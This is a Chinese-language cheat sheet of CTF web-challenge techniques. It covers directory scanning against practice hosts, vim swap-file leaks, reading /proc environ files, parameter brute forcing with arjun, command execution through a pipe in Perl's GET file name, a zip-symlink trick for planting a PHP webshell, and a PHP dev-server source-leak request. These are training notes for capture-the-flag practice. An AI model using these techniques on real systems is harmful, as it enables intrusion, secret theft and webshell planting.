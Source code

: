 拿到题，访问web。
查看源码 仔细查看或者搜索关键词，如flag,include等，提示方向。

F12查看网络请求情况。
最好抓包，仔细查看请求头，响应头信息。

查看传参，回显情况。sql注入，文件包含，模板注入。

目录测试，如flag.php，robots.txt，www.zip
探针/tz.php，/backup.sql，index.phps源码文件
```
D:\mypython\python311\python.exe  dirsearch.py -u "http://16b5eb0b-ac30-452a-808a-0e9214102abd.node3.buuoj.cn/" -s 1 --exclude-status=429,403 -t 1
```

^
早期 asp+access 架构的数据库文件为db.mdb，访问/db/db.mdb下载一个文件。Access或文本打开搜索得到flag。

^
临时文件
>临时文件是在vim编辑文本时就会创建的文件，如果程序正常退出，临时文件自动删除，如果意外退出就会保留，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。所以通过在url后面加上/index.php.swp即可看到flag。
以index.php来说，第一次退出后，缓存文件名为index.php.swp，第二次退出后，缓存文件名为index.php.swo,第三次退出后文件名为index.php.swn。
场景：发现网页有个错别字？赶紧在生产环境vim改下，不好，死机了

^
一般flag在/flag或/flag.txt中，也可能在env命令环境变量中，还可能在phpinfo()中，php的$GLOBALS数组中, echo $flag中。
/read?file=/proc/self/environ
/read?file=/proc/environ
cat /proc/1/environ
cat /proc/$PID/environ
^
## **爆破参数**
一个网站没有任何传参提示，如python ssti注入点，需要用工具爆破出参数。
工具arjun


**安装**
```
pip3 install arjun
```
或者下载github项目<https://github.com/s0md3v/Arjun>，使用python安装
```
python3 setup.py install
```

**使用**
```
python3 arjun -u http://e3.buuoj.cn/ -c 100 -d 5
arjun  -u http://e3.buuoj.cn/ -c 100 -d 5
```


^
## **linux中程序漏洞**
#### **GET函数漏洞**
>低层的open函数存在命令执行漏洞：如果open文件名中存在管道符（也叫或符号|），就会将文件名直接以命令的形式执行，然后将命令的结果存到与命令同名的文件中(前提先有这个文件)。
```
GET /
查看根目录目录
GET file:|readflag
会执行readflag程序的命令，并返回程序执行结果到readflag文件，没有先创建。

GET file:bash -c /readflag|
会执行readflag程序命令，并返回程序执行结果到readflag|文件，没有先创建。
```


^
#### **unzip命令危害软连接**
已知一个程序是要你上传zip压缩包，然后自动解压到/tmp目录。我们想让他解压到web后门。
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};
```
我们的可以创建一个名文linkto的软链接文件，指定的链接地址为/var/www/html/，并压缩为linkto.zip
```
ln -s /var/www/html linkto 
zip --symlinks linkto.zip linkto
```
同时创建一个名为linkto的目录，目录里放一个php木马，再返回上一级压缩目录为linkto1.zip
```
mkdir linkto
cd ../
zip -r linkto1.zip ./*
```
先上传linkto.zip，再上传linkto1.zip即可再web目录写下木马。








^
## **nuclei扫描**
有时候可能会出现一些cve漏洞作为前提，这时候可以漏扫一下先。


如：PHP<=7.4.21时通过`php -S`开起的WEB[服务器]存在源码泄露漏洞。 
payload：
```
GET /flag.php HTTP/1.1
Host: challenge.wucup.cn:38308


GET /Kawakaze HTTP/1.1
```

